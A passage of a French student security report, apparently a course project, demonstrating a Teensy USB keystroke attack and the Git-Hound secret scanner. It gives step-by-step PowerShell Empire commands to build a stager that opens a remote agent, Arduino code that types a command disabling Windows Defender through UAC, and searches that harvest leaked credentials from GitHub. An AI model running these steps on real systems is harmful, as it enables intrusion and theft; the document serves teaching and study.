\section{Présentation des outils}

\subsection{Premier outil: Teensy}

\subsubsection{Présentation}

Le Teensy est un kit de développement similaire aux produits de la gamme Arduino, 
ce dispositif peut-être utilisé comme un HID (Human Interface Device), 
c’est à dire se faire passer pour un clavier par exemple et envoyer des frappes de clavier à l’ordinateur 
auquel il est connecté.

Ce produit est aussi similaire au fameux “Rubber Ducky”, produit par la société Hak5, 
il fournit les même possibilité mais il nécessite une configuration initial un peu plus poussé.

\subsubsection{Installation}
Pour commencer à développer sur le Teensy, il faut installer \href{https://www.arduino.cc/en/main/software}{l’IDE de Arduino}, 
une fois l’installation effectuée il faut installer le \href{https://www.pjrc.com/teensy/teensyduino.html}{plugin Teensyduino}, qui va permettre de programmer sur le Teensy.

Pour créer les différents payloads d’attaque,nous avons utilisé le framework “Empire”, qui permet de faciliter 
la création de payloads malveillant pour les Teensy.

Pour l’installer il suffit simplement de taper la commande suivante sur Kali Linux:

\begin{lstlisting}{language=bash}
\> apt install powershell-empire
\end{lstlisting}

Pour les autres distribution voir \href{https://github.com/BC-SECURITY/Empire/tree/dev}{ici}. 

\subsubsection{Création de payloads}
Nous allons donc utiliser “Empire” pour créer des payloads pour le Teensy, pour ce faire, il faut démarrer “Empire” en tapant: 

\begin{lstlisting}{language=bash}
> powershell-empire
\end{lstlisting}

Ensuite il faut choisir quel listener utiliser, nous allons utiliser le listener “http”, il faut donc taper:

\begin{lstlisting}{language=bash}
> uselistener http
\end{lstlisting}

Ensuite, on peut configurer ce module comme un module Metasploit, ici on va juste changer le port d’écoute en tapant:

\begin{lstlisting}{language=bash}
> set Port 9000
\end{lstlisting}

Puis pour exécuter le listener on tape:

\begin{lstlisting}{language=bash}
> execute
\end{lstlisting}

Après il faut choisir le mode de transmission, ici on va choisir la transmission par un Teensy, il faut donc taper:

\begin{lstlisting}{language=bash}
> usestager windows/teensy
\end{lstlisting}

Puis associer le stagers au listener en tapant:

\begin{lstlisting}{language=bash}
> set Listener http
\end{lstlisting}

Et enfin, générer le payload en tapant:

\begin{lstlisting}{language=bash}
> generate
\end{lstlisting}

Empire devrait afficher que le fichier de script Arduino a bien été créer:


\includegraphics[scale=0.8]{images/SEN_Projet_Image06.png}

Il ne nous reste plus qu’à le compiler et le transférez sur le Teensy, pour cela il faut 
revenir sur l’IDE Arduino et ouvrir le fichier précédemment créé, puis cliquez sur le bouton en haut à gauche de compilation/vérification:


\includegraphics[scale=0.8]{images/SEN_Projet_Image010.jpeg}

Puis, une fois la compilation finie, il faut cliquer sur le bouton d’upload vers le Teensy:


\includegraphics[scale=0.8]{images/SEN_Projet_Image011.jpeg}

Il est possible que Arduino ne parviennent pas à mettre le Teensy en “Program Mode”, dans ce cas là, appuyez sur 
le bouton présent sur le Teensy pour le mettre en “Program Mode” manuellement.

Après tout cela, branchez le Teensy sur l’ordinateur cible, celui-ci devrait ouvrir un shell de cmd et tapez 
son payload pour l'exécuter avec Powershell, une fois ceci fait, un agent devrait être disponible sur Empire:


\includegraphics[scale=0.8]{images/SEN_Projet_Image07.png}

Pour voir les agents avec lesquels il est possible d'interagir, tapez:

\begin{lstlisting}{language=bash}
> agents
\end{lstlisting}


\includegraphics[scale=0.5]{images/SEN_Projet_Image08.png}

Pour interagir avec un agent, tapez:

\begin{lstlisting}{language=bash}
> interact $ID_AGENT
\end{lstlisting}

Il est maintenant possible d'interagir avec la machine de la victime !


\includegraphics[scale=0.48]{images/SEN_Projet_Image09.png}

\subsubsection{Bypass Winodws Defender}

Dans l'exemple précédent, si l'ordinateur était équipé de Windows Defender, le payload était bloqué, nous allons donc
devoir désactiver Windows Defender avec le Teensy.

Pour ce faire il faut éditer le script Arduino produit par “Empire” et ajoutez ces quelques lignes:

\begin{lstlisting}{language=c}
void sendKey(uint8_t keyin){
  clearKeys();
  Keyboard.set_key1(keyin);
  Keyboard.send_now();
  clearKeys();
  delay(200);
}
\end{lstlisting}

La fonction "sendKey()" vient de ce site: \url{https://www.securitysift.com/fun-with-teensy/}, j'ai eu quelques problèmes avec les différences de délai entre
ma VM Windows et ma machine local, j'ai donc décider d'utiliser cette fonction afin de régler ces problèmes.

Elle permet simplement d'envoyer des frappes clavier, mais elle réinitialise à chaque fois l'état des touches de contrôle (CAPS LOCK par exemple).

\begin{lstlisting}{language=c}
Keyboard.print("powershell -Command \"Start-Process PowerShell -ArgumentList '-Command Set-MpPreference -DisableRealtimeMonitoring $true' -Verb RunAs\"");
sendKey(KEY_ENTER);
sendKey(KEY_LEFT);
sendKey(KEY_LEFT);
sendKey(KEY_ENTER);
\end{lstlisting}

La commande permettant de désactiver la protection active de Windows Defender est la suivante: 

\begin{lstlisting}{language=powershell}
Set-MpPreference -DisableRealtimeMonitoring $true
\end{lstlisting}

On va donc placer cette commande comme argument d'un commande PowerShell lancé en tant qu'utilisateur privilégié.

Cela va désactiver Windows Defender et appuyer sur "Oui" au moment de l'apparition de l'UAC, il faut pour cela que l'utilisateur dispose des droits nécessaire.

Il faut placer ce bout de code là avant l'exécution du payload Base64 d'Empire.

\subsubsection{Sources}
\begin{enumerate}
    \item \url{https://null-byte.wonderhowto.com/how-to/use-powershell-empire-generating-stagers-for-post-exploitation-windows-hosts-0179939/}
    \item \url{http://www.powershellempire.com/?page_id=110}
    \item \url{https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---Windows-10-:-Disable-Windows-Defender-through-powershell}
    \item \url{https://serverfault.com/questions/464018/run-elevated-powershell-prompt-from-command-line/464024}
    \item \url{https://www.securitysift.com/fun-with-teensy/}
    \item \url{https://social.technet.microsoft.com/Forums/en-US/316d5790-8186-4ffa-875c-6b943478995b/start-powershell-script-from-cmd-as-admin?forum=winserverpowershell}
\end{enumerate}

\subsection{Deuxième outil: Git-Hound}

\subsubsection{Présentation}

Git-Hound est un outil qui permet de trouver des secrets sur des repository GitHub, des secrets comme des clés d'API AWS, 
ou des mot de passe de base de donnée, et encore pleins d'autre informations. 

Pour fonctionner il se sert de l'API GitHub et il fouille parmi les résultats de recherche afin de détecter 
différents éléments sensibles, à l'aide de Regex (disponible en partie ici: \url{https://www.ndss-symposium.org/wp-content/uploads/2019/02/ndss2019_04B-3_Meli_paper.pdf}), 
par exemple si il trouve un chaîne de caractère du type:

\begin{lstlisting}{}
token=202cb962ac59075b964b07152d234b70
\end{lstlisting}

Il va pouvoir détecter que c'est un token et que c'est potentiellement une information sensible.

\subsubsection{Installation}

1) Téléchargez la dernière release (\url{https://github.com/tillson/git-hound/releases})

2) Créer un fichier {\bfseries config.yaml} et mettez votre nom d'utilisateur et votre mot de passe Git Hub comme cela:

\begin{lstlisting}{language=yaml}
github_username: $USERNAME_GITHUB
github_password: $PASSWORD_GITHUB
\end{lstlisting}

On peut ensuite lancer Git-Hound et lui passer des inputs comme ceci:

\begin{lstlisting}{language=shell}
> echo "domain.com" | ./git-hound
\end{lstlisting}

\subsubsection{Exemples d'utilisation}

Comme expliqué par le créateur du script\footnote{\url{https://tillsongalloway.com/finding-sensitive-information-on-github/index.html}}, 
celui-ci est utilisé pour trouver des secrets sur des entreprises, particulièrement sur des sous-domaines un peu caché, c'est donc ce que l'on va tester ici.

J'ai pour cela réuni la liste des domaines connu de l'EPFL et d'autres domaines, à l'aide de ce site: \url{https://www.threatcrowd.org/}

J'ai placer les domaines dans une liste et j'ai donner la liste à Git-Hound, afin qu'il cherche des secrets lié aux domaines, comme cela:

\begin{lstlisting}{language=shell}
> ./git-hound --subdomain-file list.txt
\end{lstlisting}
  
Git-Hound va donc chercher les domaines sur GitHub, puis scanner les repositories qu'il va trouver à la recherche de secret et les afficher sur la console.

Voici ce que l'on peut trouver par exemple: \\


\includegraphics[scale=0.48]{images/SEN_Projet_Image014.png} \\


\includegraphics[scale=0.48]{images/SEN_Projet_Image013.png} \\

Il est posssible de paramétrez le scan en limitant le nombre de page avec l'argument {\bfseries --pages}.

Il est aussi possible d'utiliser la grande liste de filtre GitHub afin d'effectuer des recherches plus précises\footnote{\url{https://help.github.com/en/github/searching-for-information-on-github/searching-code}},
par exemple si on veut trouver des fichier properties de projet Spring Boot, on peut taper le filtre:
\\

\begin{lstlisting}{language=shell}
  filename:application.properties
\end{lstlisting}

Les fichiers properties sont des fichiers utilisées par Spring Boot afin de stocker des variables comme des credentials de base de donnée par exemple.

Voici un exemple de résultat: \\

\begin{lstlisting}{language=shell}
>  echo "filename:application.properties" | ./git-hound
\end{lstlisting}


\includegraphics[scale=0.48]{images/SEN_Projet_Image015.png} \\


\includegraphics[scale=0.48]{images/SEN_Projet_Image016.png} \\

Nous avons trouvé les credentials d'une base de donnée sur la plateforme Amazon EC2, nous n'avons bien sur pas essayé les credentials par soucis de légalité.

Un autre cas de test intéressant est le filtre:

\begin{lstlisting}{language=shell}
  filename:.env
\end{lstlisting}

Le fichier .env permet de passer des variables d'environnement à des containers Docker , il est donc souvent utilisé pour transmettre des clés d'API ou des secrets.
\\

Trouvailles avec la commande:

\begin{lstlisting}{language=shell}
>  echo "filename:.env" | ./git-hound
\end{lstlisting}


\includegraphics[scale=0.48]{images/SEN_Projet_Image017.png}


\includegraphics[scale=0.48]{images/SEN_Projet_Image018.png}

\subsubsection{Comment tester les clés ?}

Nous avons trouvé une repository Git Hub qui explique comment savoir si une clé d'API est valide:
\\

\url{https://github.com/streaak/keyhacks} \\

Nous n'avons pas testé la validité des clés/tokens trouvé durant ce projet par soucis de légalité.

\subsubsection{Points forts/faibles}

{\bfseries Points forts:} \\

- Contrairement à d'autre outils qui vérifie la présence de secrets/tokens dans Git Hub, Git-Hound permet de scanner
tous GitHub et pas seulement une repository (comme git-secrets par exemple).

- Les regex sont plutôt bien implémenté et le script semble aussi vérifier que l'entropie des secrets trouvés
soient assez élevé, ceci dans le but d'éviter les "faux" tokens, ou les "placeholder".

- Recherche aussi dans les "Gists", qui sont de petites notes qu'il est possible de créer sur GitHub \footnote{\url{https://gist.github.com/}}.
\\

{\bfseries Points faibles:} \\

- Ne semble pas encore supporter la détection de clés privés (RSA, EC, OpenSSL, etc...).

- Parfois assez lent.

- Nécessite de donner son username/password (obligatoire à cause des limitations de l'API GitHub).

\subsubsection{Sources}
\begin{enumerate}
  \item \url{https://tillsongalloway.com/finding-sensitive-information-on-github/index.html}
  \item \url{https://www.ndss-symposium.org/wp-content/uploads/2019/02/ndss2019_04B-3_Meli_paper.pdf}
\end{enumerate}